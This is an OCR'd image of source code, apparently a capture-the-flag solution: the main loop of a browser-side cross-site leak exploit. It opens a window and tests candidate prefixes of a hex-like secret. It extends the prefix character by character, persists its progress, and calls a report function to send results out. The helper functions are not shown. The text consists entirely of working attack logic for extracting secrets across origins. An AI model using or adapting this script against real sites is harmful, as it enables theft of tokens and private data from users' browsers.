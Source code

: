 ```html

const main = async () => {
    const alphabet = '0123456789abcdef-}';

    const state = loadState();
    await report(state);

    const wnd = window.open();
    await sleep(1000);

    const symbol = alphabet[state.index];
    const new_prefix = state.prefix + symbol;

    let result = true;

    for (let i = 0; i < 5; i += 1) {
        if (!(await testPrefix(wnd, new_prefix))) {
            result = false;
            break;
        }
    }

    wnd.close();

    if (result) {
        state.prefix = new_prefix;
        state.index = 0;
    } else {
        state.index += 1;
    }

    saveState(state);
};

main()
    .catch(error => report({ error: error.toString(), stack: error.stack }));

        </script>
    </body>
</html>
```